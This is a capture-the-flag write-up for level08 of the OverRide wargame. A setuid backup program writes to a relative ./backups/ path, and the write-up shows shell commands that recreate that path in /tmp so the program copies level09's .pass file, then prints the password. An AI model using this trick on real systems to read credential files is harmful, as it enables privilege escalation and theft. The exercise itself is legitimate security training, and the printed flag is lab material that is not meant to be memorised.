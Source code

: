 # level08

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

The program takes one argument: a file name. It opens `./backups/.log` and the file pointed by the only argument. It
copies char by char the content of the argument into a new file in `./backups/` and close everything.

## Exploit

The exploit is quite straightforward: first go to the only folder we have rights to write, `/tmp/`.

```console
level08@OverRide:~$ cd /tmp
```

Then we are going to re-create a path for our file:

```console
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
```

Ok, now we are calling `level08` program with the `level09`'s `.pass` file:

```console
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
```

And our `.pass` is copied!

```console
level08@OverRide:/tmp/backups$ cat home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

✌️
